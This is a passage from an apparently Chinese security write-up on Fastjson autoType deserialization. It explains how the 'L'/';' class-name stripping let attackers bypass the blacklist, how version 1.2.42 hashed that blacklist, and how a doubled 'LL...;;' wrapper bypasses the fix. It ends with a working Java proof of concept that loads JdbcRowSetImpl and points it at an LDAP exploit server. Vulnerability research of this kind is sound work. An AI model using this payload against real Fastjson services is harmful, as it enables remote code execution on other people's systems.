 先来调试不开启的情况，前面依旧就会遍历黑名单对class进行赋值，但最后这个会去检测如果未开启，则直接抛异常，开启则会去返回。

[![](https://p3.ssl.qhimg.com/t0197a9793be67543f6.png)](https://p3.ssl.qhimg.com/t0197a9793be67543f6.png)

将注释打开后，则直接返回class

[![](https://p3.ssl.qhimg.com/t019f5d6fb159fdfd30.png)](https://p3.ssl.qhimg.com/t019f5d6fb159fdfd30.png)

[![](https://p2.ssl.qhimg.com/t0107703cb32293aaf7.png)](https://p2.ssl.qhimg.com/t0107703cb32293aaf7.png)

命令执行成功。但是可以看到前面的class是`Lcom.sun.rowset.JdbcRowSetImpl`为什么也会触发命令执行？

原因在于`com.alibaba.fastjson.parser#TypeUtils.loadClass(typeName, this.defaultClassLoader);`方法中，可跟进查看。

[![](https://p1.ssl.qhimg.com/t01cd5cb6193f67c67a.png)](https://p1.ssl.qhimg.com/t01cd5cb6193f67c67a.png)

[![](https://p0.ssl.qhimg.com/t01dea2fd740cc515fe.png)](https://p0.ssl.qhimg.com/t01dea2fd740cc515fe.png)<br>
这里解析到内容如果为`L`开头，`;`结尾的话就会将这2个字符清空，前面其实还有一个`[`。

### <a class="reference-link" name="1.2.42%20%E4%BF%AE%E5%A4%8D%E6%96%B9%E5%BC%8F"></a>1.2.42 修复方式

修复改动：明文黑名单改为HASH值,`checkcheckAutoType`方法添加`L`和`;`字符过滤。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01badc70d5e064dd47.png)

加密方法位于`com.alibaba.fastjson.util.TypeUtils#fnv1a_64`可将进行碰撞获取值。

### <a class="reference-link" name="1.2.42%E7%BB%95%E8%BF%87%E6%96%B9%E5%BC%8F"></a>1.2.42绕过方式

```
package com.nice0e3;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class POC `{`
    public static void main(String[] args) `{`
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

        String PoC = "`{`\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\", \"dataSourceName\":\"ldap://127.0.0.1:1389/Exploit\", \"autoCommit\":true`}`";
        JSON.parse(PoC);
    `}`

`}`
```

[![](https://p0.ssl.qhimg.com/t01dd61f1b4877d4b43.png)](https://p0.ssl.qhimg.com/t01dd61f1b4877d4b43.png)
